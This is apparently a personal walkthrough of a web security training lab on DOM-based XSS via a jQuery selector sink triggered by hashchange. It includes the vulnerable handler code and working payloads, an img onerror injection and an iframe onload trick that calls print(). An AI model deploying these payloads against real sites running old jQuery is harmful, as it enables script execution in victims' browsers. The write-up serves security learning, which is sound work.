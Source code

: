 # Lab 6: DOM XSS in jQuery selector sink using a hashchange event

---

## 🎯 Mission Description  
This lab has a DOM XSS vulnerability because it uses jQuery's `$()` selector with data taken directly from `location.hash` without sanitization. The vulnerable jQuery version interprets injected HTML, allowing arbitrary JavaScript execution when the hash changes.

---

## 🎯 Mission Objective  
Trigger the `print()` function in the victim's browser.

---

## 🧪 Steps (My Approach)

1. 🔍 Viewed the source code and found:

   ```javascript
   $(window).on('hashchange', function(){
       var post = $('section.blog-list h2:contains(' + decodeURIComponent(window.location.hash.slice(1)) + ')');
       if (post) post.get(0).scrollIntoView();
   });

→ This takes whatever is after the # in the URL, decodes it, and places it inside the :contains() selector. jQuery 1.8.2 will treat HTML in the selector as actual DOM elements.

    ❌ First try (direct injection in hash):

    https://LAB-ID.web-security-academy.net/#<img src=x onerror=print()>

    Result:
    Code didn’t execute immediately because the event only fires when the hash changes after page load.

    ✅ Working approach:

        Use an <iframe> to load the page with a harmless hash.

        On the iframe’s onload, append the malicious payload to src, causing a hash change and triggering the vulnerable code.

✅ Final Payload

 ```javascript
<iframe src="https://LAB-ID.web-security-academy.net//#" onload="this.src+='<img src=x onerror=print()>'"></iframe>"
 ```
🔎 Which results in:

```javascript
<section class="blog-list">
    <h2><img src="x" onerror="print()"></h2>
</section>
```
💥 print() executes as soon as the hashchange event fires.
🧠 Notes

    Vulnerability is due to unsafe use of user input inside jQuery selectors.

    Old jQuery versions (< 3.5.0) can interpret injected HTML in selectors.

    Payload only triggers when the hash actually changes, hence the need for the iframe trick.

✅ Status: Solved 🎉
